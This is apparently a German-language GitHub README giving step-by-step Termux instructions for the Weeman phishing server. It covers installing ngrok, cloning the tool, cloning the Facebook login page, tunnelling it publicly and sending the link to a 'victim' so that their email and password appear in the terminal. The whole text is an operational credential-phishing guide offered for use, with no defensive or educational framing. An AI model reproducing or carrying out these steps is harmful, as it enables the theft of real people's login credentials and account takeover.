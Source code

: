 # Weeman - http server for phishing

# Zuerst "ngrok"

SCHRITT FÜR SCHRITT "WEEMAN" IN TERMUX INSTALLIEREN :-
Teilen Sie Ihre Links über das Internet und schappen Sie sich die Login-daten
 --> installieren NGROK im vorraus

-gehe per Browser auf https://ngrok.com/download und lade die "Linux ARM" Zip

-in Termux nutzen wir jetzt folgende Befehle:

1. cd /sdcard/download
2. unzip ngrok.zip
3. cp ngrok $HOME
4. cd $HOME
5. ls
6. chmod 777 ngrok
7. ./ngrok
8. ./ngrok authtoken 844ZM.... [kopiere den Orginal Code der dir angezeigt wird, sobald du dich eingelogt hast]

 zu 8.: dieser schritt ist nicht unbedingt notwendig

# Installieren

TIPPE


  apt update && apt upgrade

dann TIPPE


  pkg install git

kopieren den folgenden Link


  git clone https://github.com/GottModusTermux/G0D

  ls

  cd G0D/weeman

  pkg install python2

  ls

  python2 weeman.py
  
# Ausführen

nach dem Start folgende befehle

-Befehl 1 

  set url yoursite.com

-Befehl 2 

  set port 8080

-Befehl 3 

  set action_url yoursite.com
  
-Befehl 4

  run
  
Nun öffnet ihr einen Browser und sucht
LOCALHOST:8080 oder 127.0.0.1:8080.

# ERÖFFNE EINE FACEBOOK-PHISHING SEITE.

-TIPPE

  cd G0D/weeman

  python2 weeman.py

  set url https://www.facebook.com/

  set port 8080

  set action_url https://www.facebook.com/

  run

Jetzt können Sie Ihre Facebook-Phishing Seite einfach per Ngrok an Ihr Opfer weiterleiten...

-Neues Termux Fenster öffnen

-gehe zum Ordner wo NGROK vorhanden ist
(hier im ordner G0D.... )
cd G0D

./ngrok http 8080

Oben rechts den unteren Link kopieren, und nun verschicken
Beispiel:
"https://denLinkKopieren.ngrok.io -> localhost:8080

sobald das Opfer seine Login-Daten eingegeben hat, 
können Sie seine E-Mail-ID und sein Passwort in dem Termux Fenster "weeman" einsehen
(hochscrollen und "user: " | "pass: "suchen)

sobald "ngrok" beendet wird, ist der erstellte Link nicht mehr erreichbar !! 


HTTP server for phishing in python.
Version 1.7.1 is the last and latest version for weeman.
